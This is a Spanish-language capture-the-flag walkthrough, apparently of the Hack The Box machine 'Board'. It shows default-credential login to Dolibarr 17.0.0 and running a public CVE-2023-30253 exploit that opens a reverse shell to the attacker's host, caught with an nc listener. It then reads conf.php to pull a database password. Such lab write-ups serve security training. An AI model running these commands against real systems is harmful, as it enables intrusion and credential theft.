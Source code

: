 Por lo que vemos encontramos un subdominio llamado `crm` por lo que nos lo pondremos en el `hosts`....

```shell
nano /etc/hosts

#Contendio de nano
<IP>        board.htb crm.board.htb
```

Una vez guardado, si buscamos con esa `URL`, veremos un panel de login...

```
URL = http://crm.board.htb/index.php?
```

Si probamos las credenciales por defecto nos dejara logearnos...

```
User = admin
Password = admin
```

Si vemos que la version de la pagina es `Dolibarr 17.0.0` por lo que si buscamos un exploit lo encontraremos en GitHub...

URL = https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253/blob/main/exploit.py

Como este exploit se necesita autenticacion y ya la tenemos lo utilizaremos...

```shell
python3 exploit.py http://crm.board.htb admin admin <IP> <PORT>
```

Info:

```
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection
```

Mientras se esta ejecutando eso estaremos a la escucha...

```shell
nc -lvnp <PORT>
```

Y si esperamos un rato ya tendremos la shell con el usuario `www-data`...

Si nos vamos a la siguiente `URL`...

```
/html/crm.board.htb/htdocs/conf
```

Y leemos el archivo llamado `conf.php` veremos estas lineas interesantes...

```
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
```